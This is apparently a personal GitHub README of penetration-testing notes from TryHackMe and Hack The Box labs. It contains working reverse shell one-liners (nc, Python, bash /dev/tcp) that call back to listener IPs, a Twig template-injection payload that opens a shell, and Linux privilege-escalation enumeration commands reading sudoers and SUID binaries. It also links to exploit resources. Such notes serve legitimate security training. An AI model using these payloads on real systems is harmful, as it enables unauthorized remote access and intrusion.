 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction

In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

### [notes](./other/notes.md)

### [web](./other/web.md)

### [osint](./other/osint.md)

---

#### Reverse shells

```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```

```js
{{this.controller.getTwig().registerUndefinedFilterCallback("passthru")}}
{{ this.controller.getTwig().getFilter("bash -c 'bash -i >& /dev/tcp/10.127.255.241/4455 0>&1'") }}
```

---


---

### Linux Privilege Escalation:

[other](./other/src/linux_priv_esc.md)
#### information gathering

```bash
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```

quik one-line bash script with colorful output to enumerate linux machine

```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```

<details><summary> links </summary>

* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](/other/src/linux_backdoors.md)

</details>

---

[windows](./other/windows.md)

---

### links

* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)
* [WTFBINS (cve)](https://wtfbins.wtf/)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)
* [bash cheatsheet](https://devhints.io/bash)
* [enumeration guide](https://github.com/beyondtheoryio/Enumeration-Guide)
* [tmpfiles](https://tmpfiles.org/)
* [pentest-checklist](https://github.com/Hari-prasaanth/Web-App-Pentest-Checklist)
* [awesome ctf](https://github.com/apsdehal/awesome-ctf)

#### Encoding techniques:

- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)
- [md5decrypt.net](https://md5decrypt.net/en/)
- [vigenere brute force](https://www.guballa.de/vigenere-solver)
- [html enteties](https://www.webatic.com/html-entities-convertor)
- [list of signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [xxs-encoder](http://evuln.com/tools/xss-encoder/)

#### Tools

* [reconftw](https://github.com/six2dez/reconftw)
* [google dorks](/HackNotes/other/src/dorks.md)
* [aquatone](https://github.com/michenriksen/aquatone/releases/tag/v1.7.0)(screenshots)
* [nuclei](https://github.com/projectdiscovery/nuclei)(scan for vulns)
* [meg](https://github.com/tomnomnom/meg)(fetch many paths for many hosts)
* [arjun](https://github.com/s0md3v/Arjun)(http param discovery)
* [dalfox](https://github.com/hahwul/dalfox)(find xxs)
* [cdncheck](https://github.com/projectdiscovery/cdncheck)(identifying the technology associated with dns)
* [XXSHunter](https://xsshunter.trufflesecurity.com/app/#/)

[other links](/HackNotes/other/src/links.md)

---

Happy hacking!
